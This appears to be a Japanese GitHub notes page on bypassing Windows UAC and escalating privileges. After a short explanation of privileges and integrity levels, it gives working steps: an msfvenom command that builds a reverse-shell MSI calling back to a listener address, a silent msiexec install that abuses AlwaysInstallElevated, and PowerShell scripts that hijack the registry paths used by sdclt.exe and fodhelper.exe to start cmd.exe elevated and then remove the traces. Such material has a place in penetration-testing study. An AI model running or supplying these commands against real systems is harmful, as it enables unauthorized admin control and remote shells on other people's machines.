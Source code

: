# UACBypass

## 権限を制御するOSの仕組み

* Windows UAC 端末の設定変更しようとした時に管理者権限が必要になるやつ
* Windowsでは、どのようにプロセスやオブジェクトの操作権限をコントロールしているのだろう？
  * Windows OSでは操作するシステムを制御するものとして、特権と整合性レベルがある。
  * 特権　ユーザ単位のアクセス制御　アクセストークンを使用して権限を有効化
  * 整合性レベル　オブジェクトのアクセス制御　アクセストークン内に格納されている
* CUIで攻撃をしている際にUACの回避が必要

### UACバイパス

Windows95～XPの場合：（UACが存在しないためUAC回避は不要）

Windows Vista、7の場合：「イベントビューワ」(eventvwr.exe)を利用したUAC回避手法

Windows 8～10の場合：「バックアップと復元」(sdclt.exe)を利用したUAC回避手法

* ビルトインAdministratorの奪取
* Windowsポリシーの悪用
* AlwaysInstallElevated ポリシーが有効 msiを実行すると特権でインストール

#### 手順(msiペイロード)

* AlwaysInstallElevatedの確認

``` bat
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

    # AlwaysInstallElevated　REG_DWORD　0x1 であれば権限昇格に使える  
```

* payloadの作成

``` shell
    # リバースシェルを張るmsiファイルを作成。
    # msfvenomを使用
    # -fでファイル形式
    # -p でペイロード
    msfvenom -f msi -p windows/x64/shell_reverse_tcp LHOST=192.168.11.144 LPORT=1030 > evil.msi
```

* 作成したmsiファイルを配信する

``` bat
    # /quiet:進行状況バーのみを表示
    # /qn:何も表示しない
    # /i:インストーラーの指定
    msiexec /quiet /qn /i evil.msi
```

#### 手順(win10 sdclt.exe)

* UACMeで有効なexeファイルを検索

``` ps
    # default
    [String]$program = "C:\Windows\System32\cmd.exe"
    # Create Registory Structure
    New-Item "HKCU:\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" -Force
    Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" -Name "(default)" -Value $program -Force
    Get-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe"
    #Start sdclt.exe
    Start-Process "C:\Windows\System32\sdclt.exe" -WindowStyle Hidden
    #Cleanup
    Start-Sleep 3
    Remove-Item "HKCU:\Software\Microsoft\Windows\CurrentVersion\App 
    Paths\control.exe" -Recurse -Force
```

#### 手順(win10 fodhelper.exe)

* fodhelper.exe

``` ps
    # default
    [String]$program = "C:\Windows\System32\cmd.exe"
    # Creata Registory Structure
    New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
    New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $program -Force
    # Start fodhelper.exe
    Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
    # CleanUp
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```
